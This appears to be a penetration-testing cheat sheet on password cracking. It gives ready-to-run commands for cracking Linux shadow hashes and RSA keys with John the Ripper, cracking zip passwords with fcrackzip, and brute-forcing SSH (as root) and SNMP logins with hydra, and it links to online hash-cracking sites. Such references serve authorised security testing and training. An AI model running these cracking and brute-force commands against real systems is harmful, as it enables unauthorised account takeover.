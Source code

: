 

### **Linux shadow password**

First you need to combine the passwd file with the shadow file using the unshadow-program.

```
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
john --rules --wordlist=wordlist.txt unshadowed.txt
```

### Decoding Base64

```
cat $encodedfile | base64 --decode > decodedfile.txt
```

{% embed url="https://www.base64decode.org/" %}

#### Cracking Unzip file password

```
fcrackzip -D -p /usr/share/wordlists/rockyou.txt data.zip
```

#### Convert Hex to Binary

```
cat hex.txt | xxd -r -p
```

### Online Tools

{% embed url="https://crackstation.net/" %}

{% embed url="https://hashkiller.co.uk/" %}

### Cracking password for Services

#### Port 22- SSH

```
hydra -l root -P wordlist.txt $targetip ssh
hydra -L userlist.txt -P pass.txt ssh://$targetip
```

#### Cracking Priave RSA Key

```
python ssh2john.py user_rsa > crackable.txt
john --wordlist=/usr/share/wordlists/rockyou.txt crackable.txt
```

#### Port 161 - SNMP&#x20;

```
hydra -P wordlist.txt -v 102.168.0.101 snmp
```
